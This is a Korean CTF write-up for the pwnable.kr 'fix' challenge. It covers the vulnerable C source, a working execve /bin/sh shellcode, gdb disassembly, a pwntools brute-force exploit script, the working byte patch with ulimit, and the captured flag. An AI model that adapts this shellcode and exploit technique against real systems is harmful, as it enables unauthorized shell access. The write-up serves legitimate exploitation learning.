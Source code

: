 # [pwnable.kr] fix writeup



#### [summary] stack unlimited, control esp

```shell
Why bother to make your own shellcode?
I can simply copy&paste from shell-storm.org
so I just copied it from shell-storm then used it for my buffer overflow exercise
but it doesn't work :(
can you please help me to fix this??


ssh fix@pwnable.kr -p2222 (pw:guest)
```

ㄱㄱ

```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
	// a buffer we are about to exploit!
	char buf[20];

	// prepare shellcode on executable stack!
	strcpy(buf, sc);

	// overwrite return address!
	*(int*)(buf+32) = buf;

	printf("get shell\n");
}

int main(){
    char *a = "asdfasdf"
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

	unsigned int index=0;
	printf("Tell me the byte index to be fixed : ");
	scanf("%d", &index);
	fflush(stdin);

	if(index > 22)	return 0;

	int fix=0;
	printf("Tell me the value to be patched : ");
	scanf("%d", &fix);

	// patching my shellcode
	sc[index] = fix;	

	// this should work..
	shellcode();
	return 0;
}
```

`eip`가 쉘코드로 뛴 다음에 프로그램이 터지는 이유는 stack 공간 상에서 쉘코드가 동작하면서 `push`를 통해 기존 쉘코드의 값에 영향을 주기 때문이다. 쉘코드의 맨 뒷 부분과 `esp` 간에 3*4bytes의 공간밖에 없다.

```shell
gdb-peda$ x/20wx $esp - 24
0xffffcee8:	0x50e3896e	0xb0e18953	0x0080cd0b	0xffffcf08
0xffffcef8:	0xffffcf18	0xffffcedc	0x00000001	0xffffcfc4
```

주어진 쉘코드를 살펴보면 다음과 같다.

```assembly
gdb-peda$ disass /r 0x804a02c
Dump of assembler code for function sc:
   0x0804a02c <+0>:	31 c0	xor    eax,eax
   0x0804a02e <+2>:	50	push   eax
   0x0804a02f <+3>:	68 2f 2f 73 68	push   0x68732f2f
   0x0804a034 <+8>:	68 2f 62 69 6e	push   0x6e69622f
   0x0804a039 <+13>:	89 e3	mov    ebx,esp
   0x0804a03b <+15>:	50	push   eax
   0x0804a03c <+16>:	53	push   ebx
   0x0804a03d <+17>:	89 e1	mov    ecx,esp
   0x0804a03f <+19>:	b0 0b	mov    al,0xb
   0x0804a041 <+21>:	cd 80	int    0x80
   0x0804a043 <+23>:	00 00	add    BYTE PTR [eax],al
```

문제가 의도하는 것은 그럼 저 쉘코드 중 한 바이트를 어떤 값으로 변경하라는 것 같은데, 솔직히 감이 잘 안잡혔다.

그래서 그냥 바로 브루트 포싱을 돌렸다. 23 * 256 = 5888 정도로 충분히 돌려볼 만하다.

### exploit

```python
#!/usr/bin/python
from pwn import *
import sys

#context.log_level = 'debug'
for i in range(0, 23):
	for j in range(0, 0xff+1):
		r = process('./fix')
		#r.interactive()
		#r.recvuntil('Can you fix it for me?\n')	
		
		r.sendline(str(i))
		r.sendline(str(j))
		r.recvuntil('get shell\n')
		print i, j
		try:
			r.sendline('id')
			r.recv(100)	
			r.interactive()
		except:
			print 'sorry..'
			r.close()
			continue

```

바이너리에 버퍼가 할당되어 있어서 싱크가 좀 안맞아서 순서가 좀 이상하긴 한데, 저렇게 하면 돌아가긴 한다.

```shell
ch4rli3kop@ubuntu16:~/pwn/pwnable.kr/fix$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 201
get shell
/bin//sh: 0: Can't open ����
                             P��c

```

sc[15] = 201로 했더니 특별한 반응을 보여서 테스트해보니, 뭔가 실행되는거 같으면서도 안됀다. 아마 인자가 잘못들어간듯. 어셈을 살펴보았더니, 기존 `push eax`를 `leave`로 바꿨다.

```assembly
0xffffcedc:	xor    eax,eax
0xffffcede:	push   eax
0xffffcedf:	push   0x68732f2f
0xffffcee4:	push   0x6e69622f
0xffffcee9:	mov    ebx,esp
0xffffceeb:	leave  
0xffffceec:	push   ebx
0xffffceed:	mov    ecx,esp
0xffffceef:	mov    al,0xb
0xffffcef1:	int    0x80
```

`leave`과정은 `mov esp, ebp; pop ebp`와 동일하기 때문에, 해당 과정을 통해 esp를 이전 프레임으로 옮겨 프로그램을 실행하게 되는데, 에러가 나는 이유를 살펴보니 argv를 구성하는 과정에서 이상한 값이 들어가서 그런 것 같다.

 argv에 ["/bin/sh", NULL]을 만들어야하는데, 기존의 `push eax`를 통해 NULL을 만들었으나 `leave`를 이용하여 뛴 공간에 이상한 값이 들어있어, `/bin/sh`로 해당 인자를 실행시키려하는 과정에서 오류가 발생한 것 같음

어쨋든 `push eax` 대신에 0이 들어있는 곳으로 `esp`를 이동시키면 된다는 것이다.

그런데 모든 값을 다 넣어도 201밖에 응답이 없어서 그걸 이용해서 해보려고, 해당 인자를 어떻게 심볼릭 링크로 연결해서 해보려고도 했는데, 잘 안돼서 결국 힌트를 봤다..

`ulimit -s`을 이용한다고 했는데, 아마 스택 공간을 엄청 크게해서 어디로 `esp`가 가더라도 동작이 제대로 하도록 하는 것 같다. gdb로는 확인할 수가 없어서 정확히 어떻게 하는지는 모르겠다. 나중에 잘하는 사람한테 물어봐야할듯

### result

```shell
fix@prowl:~$ ulimit -s unlimited
fix@prowl:~$ ./fix 
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ id
uid=1049(fix) gid=1049(fix) egid=1050 groups=1050,1049(fix)
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
```

